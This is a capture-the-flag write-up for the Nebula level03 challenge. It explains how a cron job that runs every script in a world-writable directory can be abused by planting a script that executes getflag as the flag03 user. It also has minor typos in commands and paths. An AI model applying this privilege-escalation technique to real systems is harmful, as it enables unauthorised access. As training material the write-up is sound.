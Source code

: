 ## Challenge
Check the home directory of flag03 and take note of the files there.

There is a crontab that is called every couple of minutes.

## Solution
Listing `/home/flag03` we can find:
```console
total 1
drwxrwxrwx 2 flag03 flag03  3 2012-08-18 05:24 writable.d
-rwxr-xr-x 1 flag03 flag03 98 2011-11-20 21:22 writable.sh
```
We have a directory and a shell script:
```shell
#!/bin/sh

for i in /home/flag03/writable.d/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done
```
For each file in the directory,
* `ulimit -5 t` - allow a maximum of 5 seconds in cpu time
* `bash -x "$i"` - execute shell script and print commands executed
* `rm -f "$i"` - force delete file

We can recall a `crontab` is called every couple of minutes.

Let's read about `crontab` from `man`:
```console
man 5 crontab
```
```
 A crontab file contains instructions to the cron(8) daemon of the general form: ``run this command at
 this time on this date''.  Each user has their own crontab, and commands in any given crontab will  be
 executed as the user who owns the crontab.
```
So we can guess `writeable.sh` is going to be executed every couple of minutes.

Write a shell script that executes `getflag` to `/writable.d`.
```shell
getflag > /home/flag03/solved
```
Now we wait till cron executes the crontab.

We can use `watch` to watch `/writable` for when the file is deleted - crontab executed.
```console
watch ls -l /home/flag03/writable.d
```
```shell
level03@nebula:/home/flag03$ ls
solved  writable.d  writable.sh
level03@nebula:/home/flag03$ cat solved
You have successfully executed getflag on a target account
```
